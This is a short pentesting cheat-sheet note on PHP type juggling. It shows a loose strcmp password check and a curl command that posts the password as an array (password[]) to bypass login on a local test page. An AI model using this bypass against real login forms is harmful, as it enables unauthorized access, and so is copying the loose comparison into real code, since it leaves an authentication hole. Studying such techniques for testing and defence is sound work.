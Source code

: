 # Type Juggling

Change the data type in PHP (compare string with array and bypass)

{% code overflow="wrap" fullWidth="true" %}
```bash
# In the PHP code they're usting strcmp for username and/or password hardcoded:
if(strcmp($_POST['password'],$PASSWORD) == 0)

# We can bypass this with arrays (try for user/pass or both) with curl or Repeater:
curl -X POST http://localhost/login.php --data 'username=admin&password[]=hello'

# The field is password=.... // and we use password[]=.... (bad to use a comparison in the code)
```
{% endcode %}
